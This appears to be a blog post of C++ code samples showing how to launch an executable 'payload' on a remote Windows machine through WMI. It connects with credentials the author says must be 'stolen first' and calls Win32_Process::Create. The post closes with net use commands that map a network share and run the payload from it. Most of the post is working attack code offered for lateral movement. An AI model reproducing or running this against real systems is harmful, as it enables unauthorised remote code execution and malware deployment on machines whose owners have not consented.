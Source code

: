 ```yaml
---
layout: post
title: Launching a payload on remote machine using WMI
date: 2017-12-29
category: CodeSamples
---
```


Here's a sample on how to launch a custom executable/payload on a remote machine using WMI. Obviously, valid credentials have to be stolen first before you can connect to the remote machine. The user who is trying to access the remote machine, should be a member of the Local administrators group on the remote machine. 

Here are the basic steps:
1. The first step is to initialize the COM infrastructure.

    {% highlight cpp %}
    //-- Initialize COM.
	hres = CoInitializeEx(0, COINIT_MULTITHREADED);
	if (FAILED(hres))
	{
		cout << "\nFailed to initialize COM library. Error code = 0x"
			<< hex << hres << endl;
		return 1;
	}
	cout << "\nCOM initialised";
    
	//-- Set general COM security levels
	hres = CoInitializeSecurity(
		NULL,
		-1,                          // COM authentication
		NULL,                        // Authentication services
		NULL,                        // Reserved
		RPC_C_AUTHN_LEVEL_DEFAULT,   // Default authentication 
		RPC_C_IMP_LEVEL_IDENTIFY,    // Default Impersonation  
		NULL,                        // Authentication info
		EOAC_NONE,                   // Additional capabilities 
		NULL                         // Reserved
		);
    {% endhighlight %}

2. Next, create an instance of the Wbem locator and connect to the "root\cimv2" WMI namespace of the remote machine. Since we were connecting to a remote machine, the namespace should be fully qualified : "\\\\<server>\\root\\cimv2"

    {% highlight cpp %}
	//-- Obtain the WMI locator to pointer
	hres = CoCreateInstance(
		CLSID_WbemLocator,
		0,
		CLSCTX_INPROC_SERVER,
		IID_IWbemLocator, (LPVOID *)&pLoc);

	//-- Preparing the connection parameters
	wstrConnectPath.assign(L"\\\\");
	wstrConnectPath.append(wstrMachineName);
	wstrConnectPath.append(L"\\root\\cimv2");

	//-- Connect to the remote root\cimv2 namespace and obtain pointer pSvc to make IWbemServices calls.
	hres = pLoc->ConnectServer(
		_bstr_t(wstrConnectPath.c_str()),
		_bstr_t(wstrUserName.c_str()),		// User name
		_bstr_t(wstrPassword.c_str()),		// User password
		NULL,								// Locale             
		NULL,								// Security flags
		NULL,	//_bstr_t(wstrDomainAuth.c_str()),	// Authority        
		NULL,                              // Context object 
		&pSvc                              // IWbemServices proxy
		);
    {% endhighlight %}

3. After you retrieve a pointer to an IWbemServices proxy, you must set the security on the proxy to access WMI on the remote machine through the proxy. This step is compulsary because IWbemServices proxy will only grants access to an out-of-process or remote object if the security properties are correct.

    {% highlight cpp %}
    authIdent.PasswordLength = wcslen(wstrPassword.c_str());
	authIdent.Password = (USHORT*)wstrPassword.c_str();
	authIdent.UserLength = wcslen(wstrUserName.c_str());
	authIdent.User = (USHORT*)wstrUserName.c_str();
	authIdent.DomainLength = 0;   //<-- size of domain name
	authIdent.Domain = (USHORT*) NULL;   //<-- this should be domain name	
	authIdent.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;
	userAcct = &authIdent;


	//-- Set security levels on the new WMI connection
	hres = CoSetProxyBlanket(
		pSvc,                           // Indicates the proxy to set
		RPC_C_AUTHN_DEFAULT,            // RPC_C_AUTHN_xxx
		RPC_C_AUTHZ_DEFAULT,            // RPC_C_AUTHZ_xxx
		COLE_DEFAULT_PRINCIPAL,         // Server principal name 
		RPC_C_AUTHN_LEVEL_PKT_PRIVACY,  // RPC_C_AUTHN_LEVEL_xxx 
		RPC_C_IMP_LEVEL_IMPERSONATE,    // RPC_C_IMP_LEVEL_xxx
		userAcct,                       // client identity  <--- ideally you have to create COAUTHIDENTITY  class 
		EOAC_NONE                       // proxy capabilities 
		);
    {% endhighlight %}

4. If you have a pointer to the IWbemServices proxy - it means you have a successful connection to the WMI namespace on the remote machine. To drop the payload and launch the attack - you need to be able to create a process on the remote machine first. I've seperated this part into a function of its own, you pass in the IWbemServices proxy, and the process name and arguments as input. Refer to the function snippet below:

    {% highlight cpp %}
    /*-Refernce : https://msdn.microsoft.com/en-us/library/aa390421(v=vs.85).aspx -*/
    DWORD CreateProcessOnRemote(IWbemServices *pSvc, std::wstring wstrProcessName, std::wstring wstrProcessArgs)
    {
        HRESULT hres = 0;
        BSTR MethodName = SysAllocString(L"Create");
        BSTR ClassName = SysAllocString(L"Win32_Process");
        IWbemClassObject* pClass = NULL;
        IWbemClassObject* pInParamsDefinition = NULL;
        IWbemClassObject* pClassInstance = NULL;
        IWbemClassObject* pOutParams = NULL;
        std::wstring wstrCommandLine = wstrProcessName + L" " + wstrProcessArgs;
        VARIANT varCommand;
        VARIANT varReturnValue;

        hres = pSvc->GetObject(ClassName, 0, NULL, &pClass, NULL);
        //-- if above call is success, we are able to enumerate Win32_Process class in root\cimv2 on the remote machine
        if (FAILED(hres))
        {
            cout << "\n pSvc->GetObject failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pClass->GetMethod(MethodName, 0, &pInParamsDefinition, NULL);
        //-- if above call is success, we have a pointer to the Create method of Win32_Process class
        if (FAILED(hres))
        {
            cout << "\n pClass->GetMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }


        hres = pInParamsDefinition->SpawnInstance(0, &pClassInstance);
        //-- Spawn instance of the Win32_Process::Create Parameters.
        if (FAILED(hres))
        {
            cout << "\n pInParamsDefinition->SpawnInstance failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        // Create the values for the in-parameters	
        varCommand.vt = VT_BSTR;
        varCommand.bstrVal = _bstr_t(wstrCommandLine.c_str());
        //-- you can also pass CurrentDirectory and ProcessStartupInformation (Win32_ProcessStartup)
        //-- See https://msdn.microsoft.com/en-us/library/aa389388(v=vs.85).aspx


        //-- Store the value for the in-parameters
        hres = pClassInstance->Put(L"CommandLine", 0, &varCommand, 0);
        if (FAILED(hres))
        {
            cout << "\n   pClassInstance->Put failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        cout << "\nThe command is:" << wstrCommandLine.c_str() << endl;

        //-- Execute Method	
        hres = pSvc->ExecMethod(ClassName, MethodName, 0, NULL, pClassInstance, &pOutParams, NULL);
        //-- if this call is successfull, then we have executed the method on the remote machine
        if (FAILED(hres))
        {
            cout << "\n  pSvc->ExecMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pOutParams->Get(_bstr_t(L"ReturnValue"), 0, &varReturnValue, NULL, 0);
        if (FAILED(hres))
        {
            cout << "\n   pOutParams->Get failed."
                << " Error code = 0x"
                << hex << hres << endl;
        }
        cout << "\n Process return value:" << varReturnValue.intVal; 

    cleanup:
        VariantClear(&varCommand);
        SysFreeString(ClassName);
        SysFreeString(MethodName);

        if (pClass != NULL)
        {
            pClass->Release();
        }

        if (pClassInstance != NULL)
        {
            pClassInstance->Release();
        }

        if (pInParamsDefinition != NULL)
        {
            pInParamsDefinition->Release();
        }

        if (pOutParams != NULL)
        {
            pOutParams->Release();
        }

        return hres;
    }
    {% endhighlight %}

5. Now all you need is the actual command to launch the payload. The approach I've used in my sample is to map a network share, and then launch the payload from that share. This involves running the following commands in sequence:
```
    net use \\<servername>\<sharename> /user:<username> <password>
    \\<servername>\<sharename>\<payload.exe> <switches>
    net use \\<servername>\<sharename> /delete
```
6. Once the process is launched, you decide what the payload must do. This code simply cleans up and exits. 

For full source, refer: https://github.com/VimalShekar/Cpp/tree/master/src/WmiRemoteProcessLaunch